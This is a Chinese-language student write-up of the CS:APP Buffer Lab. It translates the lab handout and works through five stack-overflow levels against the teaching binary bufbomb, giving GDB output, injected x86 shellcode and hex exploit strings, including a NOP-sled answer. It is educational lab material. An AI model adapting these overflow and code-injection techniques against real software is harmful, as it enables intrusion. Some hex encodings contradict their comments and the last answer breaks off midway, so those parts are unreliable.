

<a href="#level0">Level 0</a>

<a href="#level1">Level 1</a>

<a href="#level2">Level 2</a>

<a href="#level3">Level 3</a>

<a href="#level4">Level 4</a>

Buffer Lab的目的是帮助学生形成对 IA32处理器上的堆栈规程 的详细理解。它涉及对可执行文件应用一系列缓冲区溢出攻击。

这个版本的实验室经过了特别的修改，以击败较新版本的Linux所使用的堆栈随机化技术。它的工作原理是使用mmap（）和汇编语言插入将%esp指向的堆栈移动到堆的未使用部分。(?)
## 1. Overview

### 1.1. Buffer Bombs
一个'Buffer Bombs'是一个可执行的炸弹，被称作'./bufbomb',它被一个缓冲区溢出攻击解决。在这个lab中，学生被要求通过五个越来越难的应用来改变buffer bomb的行为

### 1.2. Solving Buffers Bombs
每一次应用包含从标准输入读取一系列字节到一个存储在栈上的缓冲区。学生把每一个应用字符串解析为一系列被空格隔开的十六进制整数对，每一个十六进制整数对表示应用字符串中的一个字节。程序'hex2raw'把字符串转换成原始字节序列，然后可以将其送入buffer bomb：
```shell
unix> cat exploit.txt | ./hex2raw | ./bufbomb -u <userid>
```
每一个学生都在一个相同的buffer bomb上工作，但 各个阶段的解决方案是每个学生userid的函数(?)

每个阶段的解决方案对每个学生来说都是唯一的，因为它通常涉及到由'mackcookie'程序根据用户ID计算唯一的'cookie'在运行时堆栈上的操作：
```shell
unix> ./makecookie bovik
0x1005b2b7
```
实验报告对每个阶段和解决方案技术都有详细的介绍。

### 1.3. Autograding Service
我们提供了炸弹实验室使用的相同独立用户级自动辐射服务，为您处理缓冲区实验室的各个方面。学生们从服务器上下载缓冲炸弹。当学生们处理炸弹时，他们可以通过运行带有“-s”参数的缓冲炸弹来向服务器提交成功的漏洞利用字符串：
```
unix> cat exploit.txt | ./hex2raw | ./bufbomb -u <userid> -s
```
每个炸弹的当前结果都显示在网络“记分板”上。与炸弹实验室一样，没有明确的操作，实验室正在自我评分。

自动升级服务由四个主要运行的用户级程序组成/buflab目录：


-请求服务器。学生们下载炸弹，并通过将浏览器指向一个名为“请求服务器”的简单HTTP服务器来显示记分牌

-结果服务器。每次学生提交攻击字符串时，缓冲区炸弹都会向HTTP“结果服务器”发送一条短HTTP消息，称为“自动结果字符串”，该消息只需将自动结果字符串附加到“记分板日志文件”中

-报告守护程序。“报告守护进程”定期扫描记分板日志文件。报告守护进程查找每个学生为每个阶段提交的最新漏洞利用字符串，并通过将这些字符串应用到缓冲炸弹的本地副本来验证这些字符串（与炸弹实验室不同，每个学生都在同一个缓冲炸弹上工作）。然后，它更新HTML记分板，该记分板总结了每个炸弹（通过cookie识别以保护学生隐私）已成功解决的阶段，并按解决级别的数量排序。

为了避免验证过程中的无限循环，报表守护程序使用-g标志以自动辐射模式调用每个bufbomb。这导致炸弹在5秒钟后超时。

-主守护程序。“主守护进程”启动并管理请求服务器、结果服务器和报告守护进程，确保这些进程中的一个进程（及其本身）在任何时间点都在运行。如果其中一个进程由于某种原因死亡，主守护进程会检测到这一情况并自动重新启动它。主守护进程是您实际需要运行的唯一程序。


# 二.Writeup
## 1.Intruduction
本作业将帮助您详细了解IA-32调用约定和堆栈组织。它涉及对实验室目录中的可执行文件bufbomb应用一系列缓冲区溢出攻击。

注意：在这个实验室中，您将获得利用操作系统和网络服务器中的安全弱点的常用方法之一的第一手经验。我们的目的是帮助您了解

程序的运行时操作，并了解这种形式的安全弱点的性质，以便在编写系统代码时避免它。我们不会容忍使用这种或任何其他形式的攻击来获得对任何系统资源的未经授权的访问
## 2.Logistics
和往常一样，这是一个单独的项目。我们使用gcc的-m32标志生成了实验室，因此编译器生成的所有代码都遵循IA-32规则，即使主机是x86-64系统。这应该足以让您相信编译器可以使用它想要的任何调用约定，只要它是一致的。


## 3.Hand Out Instructions
有三个可执行文件，它们的作用如下
bufbomb     :你要攻击的缓冲炸弹程序
makecookie  :根据你的用户ID生成一个'cookie'
hex2raw     :一个帮助在字符串格式之间转换的实用教程

## 4.Userids and Cookies
这个实验室的各个阶段需要每个学生提供稍微不同的解决方案。正确的解决方案将基于您的userid。cookie是一个由八个十六进制数字组成的字符串，（很有可能）是您的userid唯一的。您可以使用makecookie程序生成cookie，并将您的userid作为参数。例如
```shell
unix> ./makecookie bovik
0x1005b2b7
```
在五次缓冲攻击中的四次中，你的目标是让你的cookie出现在通常不会出现的地方。
## 5.The BUFBOMB Program
BUFBOMB程序从标准输入中读取字符串。它使用下面定义的函数getbuf执行此操作：
``` cpp
1 /* Buffer size for getbuf */
2 #define NORMAL_BUFFER_SIZE 32
3 
4 int getbuf()
5 {
6     char buf[NORMAL_BUFFER_SIZE];
7     Gets(buf);
8     return 1;
9 }
```
函数Gets类似于标准库函数Gets——它从标准输入中读取字符串（以“\n”或文件结尾终止），并将其与null终止符一起存储在指定的目标。在这段代码中，您可以看到目标是一个数组buf，它有足够的空间容纳32个字符。Gets（and gets）从输入流中获取一个字符串，并将其存储到其目标地址（在本例中为buf）。然而，Gets（）无法确定buf是否足够大以存储整个输入。它只是复制整个输入字符串，可能会超出在目标位置分配的存储的界限。

如果用户向getbuf键入的字符串长度不超过31个字符，那么很明显，getbuf将返回1，如以下执行示例所示：
```shell
unix> ./bufbomb -u bovik
Type string: I love 15-213.
Dud: getbuf returned 0x1
```

通常，如果我们键入更长的字符串，就会发生错误：
```shell
unix> ./bufbomb -u bovik
Type string: It is easier to love this class when you are a TA.
Ouch!: You caused a segmentation fault!
```

正如错误消息所示，溢出缓冲区通常会导致程序状态损坏，从而导致内存访问错误。你的任务是更巧妙地提供字符串给BUFBOMB处理，这样它就能做更多有趣的事情。这些被称为漏洞字符串。BUFBOMB采用几个不同的命令行参数：

-u userid：为指示的userid操作炸弹。出于以下几个原因，您应该始终提供此参数：
```
    1.需要将您成功的攻击提交给分级服务器
    2.BUFBOMB根据你的用户ID确定你将使用的cookie，MAKECOOKIE程序也是如此
    3.我们在BUFBOMB中内置了一些功能，因此需要你使用的一些密钥堆栈地址取决于你的userid的dookie
```
-h：打印可能的命令行参数列表
-n：在Nitro模式下操作，如以下4级中所用
-s：将你的解决方案提交给分级服务器

在这一点上，您应该稍微考虑一下x86堆栈结构，并弄清楚您将针对堆栈的哪些条目。您可能还想知道上一个例子产生分段错误的确切原因，尽管这还不太清楚。

利用漏洞字符串通常包含与用于打印字符的ASCII值不对应的字节值。HEX2RAW程序可以帮助您生成这些原始字符串。它接受一个十六进制格式的字符串作为输入。在这种格式中，每个字节值由两个十六进制数字表示。

```shell
#例如
unix> echo 30 31 32 33 | ./hex2raw
unix> 0123

#test.txt的内容是'30 31 32 33‘
unix> cat test.txt | ./hex2raw
unix> 0123
```


如果在文件explore.txt中生成十六进制格式的漏洞利用字符串，则可以通过几种不同的方式将原始字符串应用于BUFBOMB：

1.可以设置一系列管道，使管柱穿过HEX2RAW。
```shell
unix> cat exploit.txt | ./hex2raw | ./bufbomb -u bovik
```

2.您可以将原始字符串存储在文件中，并使用I/O重定向将其提供给BUFBOMB：
```shell
unix> ./hex2raw < exploit.txt > exploit-raw.txt
unix> ./bufbomb -u bovik < exploit-raw.txt
```
当从GDB中运行BUFBOMB时，也可以使用此方法：

```shell
unix> gdb bufbomb
(gdb) run -u bovik < exploit-raw.txt
```
### 5.1.Important points：
1.利用漏洞攻击字符串的任何中间位置都不能包含字节值0x0A，因为这是换行符（'\n'）的ASCII代码。当Gets遇到此字节时，它将假定您打算终止该字符串。
2.HEX2RAW需要用空格分隔的两位十六进制值。因此，如果要创建一个十六进制值为0的字节，则需要指定00。要创建单词0xDEADBEEF，您应该传递EF BE AD DE HEX2RAW。

当您正确地解决了其中一个级别时，比如级别0：
```shell
../hex2raw < smoke-bovik.txt | ../bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```


然后您可以使用-s选项将解决方案提交给评分服务器：

(我不需要提交给服务器 但还是把文档上的东西完整搬过来)
```shell
./hex2raw < smoke-bovik.txt | ./bufbomb -u bovik -s
Userid: bovik
Cookie: 0x1005b2b7
Type string:Smoke!: You called smoke()
VALID
Sent exploit string to server to be validated.
NICE JOB!
```
与炸弹实验室不同，在这个实验室里犯错误不会受到惩罚。你可以随意用任何你喜欢的绳子向BUFBOMB开火。当然，你也不应该强迫这个实验室，因为它需要比你完成任务更长的时间。重要提示：您可以在任何Linux计算机上使用缓冲区炸弹，但为了提交解决方案，您需要在以下计算机之一上运行：

说明：插入您在buflab/src/config.h中建立的合法域名列表 (?)

## <div id="level0">6.Level 0:Candle(10 pts)</div>
函数getbuf在BUFBOMB中由具有以下C代码的函数测试调用：
```C
1 void test()
2 {

3 int val;
4 /* Put canary on stack to detect possible corruption */
5 volatile int local = uniqueval();
6
7 val = getbuf();
8
9 /* Check for corrupted stack */
10 if (local != uniqueval()) {
11     printf("Sabotaged!: the stack has been corrupted\n");
12 }
13 else if (val == cookie) {
14     printf("Boom!: getbuf returned 0x%x\n", val);
15     validate(3);
16 } else {
17     printf("Dud: getbuf returned 0x%x\n", val);
18 }

19 }
```
当getbuf执行其返回语句（getbuf的第5行）时，程序通常会在函数测试中恢复执行（在该函数的第7行）。我们想改变这种行为。在文件bufbomb中，有一个函数smoke，具有以下C代码：
```C
void smoke()
{
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```
你的任务是让BUFBOMB在getbuf()执行其return语句时执行smoke()的代码，而不是返回到test()
### 6.1.一些建议
1.可以使用objdump -d获得汇编代码
2.注意字节序(大端小端？)
3.你可能想使用gdb逐步完成getbuf的最后几条指令，以确保它做的是正确的事情
4.buf在getbuf堆栈框架中的位置取决于bufbomb是用哪个版本的gcc编译的，因此你必须阅读一些程序集才能确定其真实位置
```cpp
080491f4 <getbuf>:
 push   %ebp
 mov    %esp,%ebp
 sub    $0x38,%esp
 lea    -0x28(%ebp),%eax
 mov    %eax,(%esp)
 call   8048cfa <Gets>
 mov    $0x1,%eax
 leave  
 ret    
/*
解题过程：
在getbuf函数中
lea    -0x28(%ebp),%eax
mov    %eax,(%esp)
两句将 %ebp - 0x28 的值放在了栈顶
此值向Gets函数传参
(栈顶地址为 %ebp - 0x38 不重要，只是顺便一提)


而%ebp的值为此函数栈底地址(此前有 mov %esp,%ebp)
故Gets函数的参数(即存放读入数据的起始地址)离栈底的距离为0x28+0x4
加0x4是因为在栈底保存了ebp的值(push %ebp)

level0.txt内容如下
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08

然后
cat level0.txt|./hex2raw|./bufbomb -u random
*/
```

### 6.2.关于 leave 指令
getbuf函数倒数第二行有leave指令，第一次见

它相当于
```
mov %ebp, %esp
pop %ebp
```


## <div id="level1">7.Level 1:Sparkler(10 pts)</div>
BUFBOMB中的fizz函数有如下C语言代码
```C
void fizz(int val){
    int (val == cookie){
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else 
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
与level0类似，你的任务是让BUFBOMB执行fizz函数而不是返回到test函数。然而，在这种情况下你必须让它看起来传递了参数cookie。
### 7.1.一些建议
请注意程序不会真正调用fizz——而只是执行它的代码。这对你在堆的什么位置放置你的cookie有重要的影响。

```cpp
//解题过程：

//fizz函数汇编代码翻译
push %ebp;
%ebp = %esp;
%esp -= 0x18;
%eax =(%ebp) + 0x8
//if(0x804d108 == (%esp) + 0x4){这一句抄错了，导致我找了起码两个小时的bug
//正确的应该是下一句
if( (0x804d108) == eax ){
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a4ee;　
    (%esp) = 0x1;
    call <__printf_chk@plt>;
    (%esp) = -x1;
    call <validate>;
}else{
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a340;
    (%esp) = 0x1;
    call <__printf_chk@plt>;
}
(%esp) = 0;
call <exit@plt>;
```
下面是栈在四个时刻的状态

状态一：
getbuf函数执行ret时，把0x08048c42(即fizz函数的地址)取出作为转跳目标，随后esp-=0x4之后的状态，此时fizz函数中一条一句都没有执行

状态二：
执行了图中1)，2)两条语句，把esp的值存放在了之前0x08048c42的位置,并使esp,ebp两个寄存器的值为此处的地址

状态三：
又执行了图中3)语句，esp寄存器的值变了

状态四：
又执行了图中4)语句，将寄存器ebp指向的地址偏移0x8处的值存入寄存器eax

随后将寄存器eax中的值与cookie值进行比较，本地汇编代码中可以直接看到cookie值是0x804d108，但是实际传入的值应该要与username匹配

所以level1.txt在level0.txt的基础上，尾部多填入00 00 00 00 cookie(四字节)就好了

```cpp
/*
level1.txt:
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 69 04 3d 3d

cat level1.txt|./hex2raw|./bufbomb -u random
*/
```

## <div id="level2">8.Level 2:Firecracker(15 pts)</div>
一种更复杂的缓冲区攻击形式涉及提供一个对实际机器指令进行编码的字符串。然后，利用漏洞攻击字符串用堆栈上这些指令的起始地址覆盖返回指针。当调用函数（在本例中为getbuf）执行其ret指令时，程序将开始执行堆栈上的指令，而不是返回。有了这种形式的攻击，你几乎可以让程序做任何事情。放置在堆栈上的代码称为利用漏洞代码。不过，这种类型的攻击很棘手，因为必须将机器代码放到堆栈上，并将返回指针设置为该代码的开头。

BUFBOMB中的bang函数有如下C语言代码
```C
int global_value = 0;
void bang (int val){
    if(global_value == cookie){
        printf("Bang!: You set global_value to 0x%x\n," global_value);
        validate(2);
    }else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```
与级别0和1类似，您的任务是让BUFBOMB执行bang的代码，而不是返回测试。但是，在此之前，必须将全局变量global_value设置为用户ID的cookie。您的攻击代码应该设置global_value，将bang的地址推送到堆栈上，然后执行ret指令，导致跳转到bang的代码。

### 8.1.一些建议
1.您可以使用GDB获取构建漏洞利用字符串所需的信息。在getbuf中设置一个断点并运行到此断点。确定参数，如global_value的地址和缓冲区的位置

2.手工确定指令序列的字节编码是乏味的并且容易出错。您可以通过编写一个程序集代码文件来让工具完成所有工作，该文件包含要放入堆栈的指令和7个数据。用gcc-m32-c汇编这个文件，用objdump-d反汇编它。您应该能够获得将在提示下键入的确切字节序列。（如何做到这一点的简短示例包含在本文的末尾。）

3.请记住，您的漏洞利用字符串取决于您的机器、编译器，甚至您的userid的cookie。在讲师指定的一台机器上完成所有工作，并确保在BUFBOMB的命令行中包含正确的用户ID。

4.编写汇编代码时，请注意地址模式的使用。请注意，movl$0x4，%eax将值0x00000004移动到寄存器%eax；而movl 0x4，%eax将存储器位置0x00000004处的值移动到%eax。由于该内存位置通常未定义，第二条指令将导致segfault！

5.不要试图使用jmp或调用指令跳转到bang的代码。这些指令使用PC相对寻址，这很难正确设置。相反，在堆栈上推送一个地址并使用ret指令。
```cpp

//解题过程 :
// bang函数汇编代码翻译 :
push %ebp;
%ebp = %esp;
%esp -= 0x18;


%eax = (0x804d100);//括号表示间接寻址  取地址处的值
if( (0x804d108) == %eax){
    (%esp) + 0x8 = eax;
    (%esp) + 0x4 = 0x804a360;
    (%esp) = 1;
    call <__printf_chk@plt>;
    (%esp) = 2;
    call <validate>
}else{
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a50c;
    (%esp) = 1;
    call <__printf_chk@plt>;
}
(%esp) = 0;
call <exit@plt>;
```
```shell
gdb bufbomb
b *0x8049200
r -u h
x 0x804d100
0x804d100 <global_value>:	0x00000000
x 0x804d108
0x804d108 <cookie>:	0x20083f2f
x $eax
0x556835b8 <_reserved+1037752>:	0xf7e08cbb
#可以得知buf的位置是 0x556835b8
#(eax中的值是 0x556835b8 而 0x556835b8处的值是 0xf7e08cbb)


#插入汇编代码如下
mov 0x804d108,%eax #存入cookie值
mov %eax,0x804d100 #global_value = cookie
push $0x08048c9d #bang函数的地址，立即数要带$
ret #执行0x09048c9d处的代码

#上面的代码插入到buf，那么要怎么执行buf中的代码呢
#需要知道buf的地址，使getbuf函数返回时，转跳到buf
#上面已经知道buf的地址是0x556835b8

#先仿照level0，使getbuf函数返回时转跳到buf
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 b8 35 68 55

#b8 35 68 55会使buf开头被当作代码执行，在那里放入需要执行的代码
#将汇编代码转换为十六进制数的过程见readme.md
#level2.txt如下
8b 04 25 08 d1 04 08
89 04 25 00 d1 04 08
68 9d 8c 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 35 68 55
#要注意，代码执行的方向就是从低地址到高地址的
#所以先执行的代码应该放到低地址，而存入buf时前面的就是低地址
cat level2.txt|./hex2raw|./bufbomb -u h
```
## <div id="level3">9.Level 3:Dynamite(20 pts)</div>
我们之前的攻击都导致程序跳转到其他函数的代码，然后导致程序退出。因此，使用破坏堆栈的漏洞字符串来覆盖保存的值是可以接受的。最复杂的缓冲区溢出攻击形式会导致程序执行一些利用代码来更改程序的寄存器/内存状态，但会使程序返回到原始调用函数（在这种情况下为test,getbuf函数被test函数调用）。调用函数对攻击视而不见。不过，这种类型的攻击很棘手，因为您必须：1）将机器代码放到堆栈上，2）将返回指针设置为该代码的开头，3）撤消对堆栈状态的任何损坏。

此级别的工作是提供一个漏洞利用字符串，该字符串将导致getbuf将cookie返回测试，而不是值1。你可以在测试代码中看到，这将导致程序进入“Boom！”。你的攻击代码应该将你的cookie设置为返回值

### 9.1.一些建议
前面三点和8.1一样，下面这一点不一样

一旦你完成了这个级别，停下来反思一下你已经完成了什么。你让一个程序执行你自己设计的机器代码。你以一种足够隐秘的方式这样做，以至于程序没有意识到有什么不对劲。

```cpp
//解题过程
//getbuf函数是在test函数中被调用的，为了让getbuf函数返回值为cookie(修改寄存器eax的值为cookie)一定要注入代码，为了执行注入的代码一定要让getbuf的返回地址为buf的地址，为了返回test又一定要让注入的代码返回test函数中调用getbuf的下一句的地址

//level2中已经知道-u h的情况下
//buf地址为           0x556835b8


//而test函数中调用getbuf的下一句的地址
//可以直接读汇编代码得到 是0x8048dbe

//需要注入的代码如下
//在level2的bang函数中已经得知cookie值存放的地址是0x804d108
mov 0x0804d108,%eax
//上面这一行改成 mov $0x20083f2f,%eax 也行
push $0x8048dbe
ret
//翻译为16进制数
8b 04 25 08 d1 04 28
68 be 8d 04 08
c3


/*
顺便一提，汇编代码最后要留一行空行
gcc -c将此处汇编代码转换成机器码不能在mac上进行
要在docker的linux中执行
*/

//level3.txt
//注意到getbuf开头有一句 push %ebp，我们需要还原这里栈的内容
//把断点打在“函数开头”，注意不能用函数名打断点，具体见“杂项.md”

//我很长时间内认为'b 函数名'的操作会把断点打在汇编代码中函数的开头
//结果找了很久的bug

//以-u h运行
x %ebp
0x55683610 <_reserved+1037840>:	0x55685ff0
//%ebp的值是0x55683610 
//level3.txt
8b 04 25 08 d1 04 08
68 be 8d 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 10 36 68 55
b8 35 68 55
//13+31+4 = 48 
cat level3.txt|./hex2raw|./bufbomb -u h
```

## <div id="level4">10.Level 4:Nitroglycerin(10 pts)</div>
从一次运行到另一次运行，尤其是由不同的用户运行，给定过程使用的确切堆栈位置会有所不同。这种变化的一个原因是，当程序开始执行时，所有环境变量的值都放在堆栈的底部附近。环境变量存储为字符串，根据其值需要不同的存储量。因此，为给定用户分配的堆栈空间取决于他或她的环境变量的设置。在GDB下运行程序时，堆栈位置也会有所不同，因为GDB使用堆栈空间来处理自己的一些状态

在调用getbuf的代码中，我们引入了稳定堆栈的功能，这样getbuf堆栈框架的位置在运行之间就会保持一致。这使得您可以在知道buf的确切起始地址的情况下编写漏洞利用字符串。如果你试图在普通程序上使用这种漏洞，你会发现它有时有效，但有时会导致分段错误。因此有了“炸药”的名字——阿尔弗雷德·诺贝尔开发的一种炸药，它含有稳定元素，使其不太容易发生意外爆炸。

对于这个水平，我们走了相反的方向，使堆栈位置比正常情况下更加不稳定。因此有了“硝酸甘油”的名字——一种出了名的不稳定炸药。当您使用命令行标志“-n”运行BUFBOMB时，它将在“Nitro”模式下运行。该程序不是调用函数getbuf，而是调用一个略有不同的函数getbufn：

这个函数类似于getbuf，只是它有一个512个字符的缓冲区。您将需要这个额外的空间来创建可靠的漏洞。调用getbufn的代码首先在堆栈上分配随机量的存储，因此，如果您在连续两次执行getbufn期间对%ebp的值进行采样，您会发现它们的差异高达±240。
此外，当在Nitro模式下运行时，BUFBOMB要求您提供字符串5次，它将执行getbufn 5次，每次都有不同的堆栈偏移量。您的漏洞利用字符串必须使其每次都返回您的cookie。

您的任务与Dynamite级别的任务相同。再一次，这个级别的工作是提供一个漏洞利用字符串，该字符串将导致getbufn返回cookie进行测试，而不是值1。你可以在测试代码中看到，这将导致程序进入“KABOOM！”。你的漏洞利用代码应该将你的cookie设置为返回值，恢复任何损坏的状态，在堆栈上推送正确的返回位置，并执行ret指令以真正返回testn。
### 10.1.一些建议
您可以使用程序HEX2RAW发送漏洞利用字符串的多个副本。如果您在文件explore.txt中有一个副本，则可以使用以下命令：
```shell
unix> cat exploit.txt | ./hex2raw -n | ./bufbomb -n -u bovik
```
在五次getbufn的执行中，你必须使用相同的字符串。否则会导致测试程序失败。

此任务的诀窍是使用nop指令。它是用单个字节（代码0x90）编码的。阅读CS:APP2e教科书第262页上的“nop sleds”可能会很有用
```cpp
//解题过程
//level4和level3要做的事情相同，区别是其调用testn和getbufn函数
//buf的首地址是随机的，因此%esp的值也是随机的

//注意，注入的代码是在getbufn中的leave和ret指令之后执行的
//要恢复的是testn函数中push到栈上的%ebp的值

//一个误区
//返回testn函数后 是要使%ebp寄存器的值为正确的值
//恢复栈上的值是leave函数取到正确的值赋给%ebp
//之前以为一定要恢复栈上存储的%ebp旧值

//“随机”并不是真正的随机，只是五次不一样而已
//下图中的结果是可以本地复现的
```

```cpp
/*
确定一些顺序
1.testn函数调用getbufn函数
2.getbufn函数中的get函数读取字符放入buf(放到栈上)
(此时存储在栈上的、本该由getbufn函数保存的ebp值已被破坏，但是我们要恢复的是返回testn函数时，ebp寄存器中的正常值)
3.getbufn函数ret语句由于读入数据的影响，跳转到buf并开始执行
4.buf中的代码包含ret语句，会使其返回到testn函数

要解决两个问题
1.恢复%ebp值(值不确定)
2.跳转到buf(buf地址不确定)

问题1.
%esp与%ebp寄存器中存储的都是地址值

设 v1 = testn函数执行到中间部分时%ebp寄存器中的值
(v1是执行完push %ebp之后的值,它是一个栈空间的地址)

设 v2 = getbufn函数执行到中间部分%ebp寄存器中的值
有[等式1] v1 = v2 + 0x30

设 v3 = getbufn执行完ret语句时%esp寄存器中的值
有[等式2] v3 = v2 + 0x8
(执行buf中代码时，esp中的值正是v3)

通过两个等式可以得知 v3 = v1 + 0x28
且执行buf中代码时v3 = %esp

插入buf的代码如下
mov 0x0804d108,%eax  //804d108是cookie地址
lea 0x28(%esp),%ebp  //设置ebp值
push $0x08048e3a     //返回testn函数中getbufn下一行
ret

翻译为16进制
67 8d 6c 24 28
8b 04 25 08 d1 04 08
68 3a 8e 04 08
c3

问题2.
截图中可以看到getbufn中%ebp的范围是0x55683570~0x55683650
那么buf起始地址 %ebp - 0x208 的范围就是0x55683368~0x55683448
为了保证代码被执行，代码放置的位置应该大于buf的最大起始地址，并使getbuf中的ret语句跳转的位置为buf的最大起始地址。
对于buf起始地址较小的情况，用空语句nop填充，随后当地址大于buf的最大起始地址后再写入有效的执行语句
(字符被读入buf是先存储在低内存地址的，而代码也是低内存地址的先被执行)

最大最小地址的差值为0xe0(224)，因此getbufn应该读入的内容为:
224个nop + 插入buf的代码 + getbufn的ret语句应该转跳的位置
(getbufn的ret语句应该转跳的位置即buf最大起始地址0x55683448)

那么，buf首地址离栈底的距离是多少呢
换句话说我们要填入多少数据才能准确地改变
getbufn函数中ret语句执行时取到的值呢
根据<getbufn>如下四行代码

push   %ebp
mov    %esp,%ebp
sub    $0x218,%esp //这行没什么用
lea    -0x208(%ebp),%eax

0x208+0x4 = 0x20c = 524
我们填充的nop加上插入buf中的代码总共524字节
然后是4字节的跳转地址(55683448)


在使用用户名"random"时，这是一个可行的答案
cat level4.txt |./hex2raw -n|./bufbomb -n -u random
(0x55682f80 - 0x208 = 55682d78)
./makecookie random
0x3d3d0469

level4.txt:
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90
b8 69 04 3d 3d
8d 6c 24 28
68 3a 8e 04 08
c3
78 2d 68 55

使用用户名"h"时这是一个可行的答案
cat level4.txt |./hex2raw -n|./bufbomb -n -u h

level4.txt:
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
